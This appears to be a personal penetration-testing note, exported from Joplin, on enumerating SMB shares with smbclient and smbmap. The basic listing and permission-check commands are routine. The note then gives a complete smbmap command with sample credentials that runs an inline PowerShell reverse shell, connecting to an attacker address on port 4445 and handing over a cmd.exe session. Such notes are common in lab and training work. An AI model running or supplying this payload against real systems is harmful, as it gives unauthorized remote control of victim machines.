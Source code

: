 Smbclient & smbMap

# <ins>Smbclient</ins>

Check for anonymous login enabled:

> echo exit | smbclient -L \[ip\]
> 
> smbclient -L 192.168.24.24

# <ins>SmbMap</ins>

Check which permissions we have in those shares

> Smbmap -u &lt;user&gt; -H &lt;IP&gt;

Make sure to check if HTTP port available; Else putting the domain does not work. Have to only use 'localhost'

![93b6b241a8577baef7dafaca2c59fe1f.png](:/0c411b4305c44c48a50cc64aa0e81e00)

To enumerate files, use the -R option and state the folder to read

To obtain a shell in the target

```bash
smbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize ;$p=New-Object System.Diagnostics.Process ;$p.StartInfo.FileName=""""cmd.exe"""" ;$p.StartInfo.RedirectStandardInput=1 ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0 ;$p.Start() ;$is=$p.StandardInput ;$os=$p.StandardOutput ;Start-Sleep 1 ;$e=new-object System.Text.AsciiEncoding ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length) ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}} if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else { $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}} $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"
```

id: 597f35ab651443a59e302f043352a412
parent_id: 2e2257054f9c4980b2f1872f1d220424
created_time: 2022-01-16T08:10:29.971Z
updated_time: 2022-04-21T13:48:32.280Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T08:10:29.971Z
user_updated_time: 2022-04-21T13:48:32.280Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1